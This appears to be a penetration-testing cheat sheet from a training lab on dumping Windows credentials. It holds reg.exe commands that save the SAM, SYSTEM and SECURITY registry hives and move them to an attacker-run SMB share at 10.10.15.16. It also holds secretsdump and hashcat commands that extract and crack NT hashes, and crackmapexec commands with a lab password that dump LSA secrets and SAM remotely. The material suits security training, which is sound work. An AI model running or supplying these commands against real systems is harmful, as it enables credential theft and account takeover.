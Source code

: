 #### Copying SAM Registry Hives

| Registry Hive  | Description                                                                                          |
|----------------|------------------------------------------------------------------------------------------------------|
| hklm\sam       | Contains the hashes associated with local account passwords. We will need the hashes to crack them and get the user account passwords in cleartext.  |
| hklm\system    | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                     |
| hklm\security  | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                    |
#### Using reg.exe save to Copy Registry Hives
```cmd
reg.exe save hklm\sam C:\sam.save
```
```cmd
reg.exe save hklm\system C:\system.save
```
```cmd
reg.exe save hklm\security C:\security.save
```
#### Creating a Share with smbserver.py
```shell
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData <Attacker-path>
```
#### Moving Hive Copies to Share
```cmd
move sam.save \\10.10.15.16\CompData
```
```cmd
move security.save \\10.10.15.16\CompData
```
```cmd
move system.save \\10.10.15.16\CompData
```
#### secretsdump.py
```shell
locate secretsdump 
```
```shell
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
## Cracking Hashes with Hashcat
#### Adding nthashes to a .txt File
```shell
sudo vim hashestocrack.txt
```
#### Running Hashcat against NT Hashes
```shell
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```
## Remote Dumping & LSA Secrets Considerations
#### Dumping LSA Secrets Remotely
```shell
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```
#### Dumping SAM Remotely
```shell
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

